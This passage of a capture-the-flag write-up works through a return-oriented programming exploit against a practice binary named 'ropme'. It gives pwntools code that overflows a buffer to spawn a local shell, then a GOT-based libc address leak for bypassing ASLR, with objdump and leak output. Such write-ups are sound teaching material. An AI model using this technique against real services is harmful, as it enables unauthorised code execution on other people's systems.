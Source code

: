 Thus, we have all gadgets and addresses.

Local exploit:

```bash
#!/usr/bin/env python3
from pwn import *

p = process('./ropme')
#gdb.attach(p, 'b *main')
payload = b'A' * 72
payload += p64(0x4006d3)
payload += p64(0x7ffff7f79152)
payload += p64(0x7ffff7e37e50)
p.recv()
p.sendline(payload)
p.interactive()
```

Executing it:

```bash
python3 exploit.py                          
[+] Starting local process './ropme': pid 5907
[*] Switching to interactive mode
$ whoami
kali
$
```

We got execution on our machine. But the remote execution is pretty different. Remote target definitely has ASLR (Address-Space-Layout-Randomization), which prevents our execution with `hardcoded` addresses by randomizing address space. The evasion here is leaking the real address of some function, calculating the offset between real address and related address. And then moving our static addresses on this offset.

Global Offset Table maps the real address with related. See the GOT with:

```bash
objdump -R ropme            

ropme:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE 
0000000000600ff8 R_X86_64_GLOB_DAT  __gmon_start__
0000000000601050 R_X86_64_COPY     stdout@@GLIBC_2.2.5
0000000000601060 R_X86_64_COPY     stdin@@GLIBC_2.2.5
0000000000601018 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
0000000000601020 R_X86_64_JUMP_SLOT  __libc_start_main@GLIBC_2.2.5
0000000000601028 R_X86_64_JUMP_SLOT  fgets@GLIBC_2.2.5
0000000000601030 R_X86_64_JUMP_SLOT  fflush@GLIBC_2.2.5
```

So, if we put the address of puts in the RDI and execute the puts function with the address of GOT in RDI, we will receive the leaked address.


[LEAKING /bin/sh]: b'\n' 1625423
[LEAKING /bin/sh]: b'TO FIX: \n' 1625415
[LEAKING /bin/sh]: b'V_LEVEL\n' 1625407
[LEAKING /bin/sh]: b'GVERB\n' 1625399
[LEAKING /bin/sh]: b'ize.c\n' 1625391
[LEAKING /bin/sh]: b'anonicalize.c\n' 1625383
[LEAKING /bin/sh]: b'/bin/sh\n' 1625367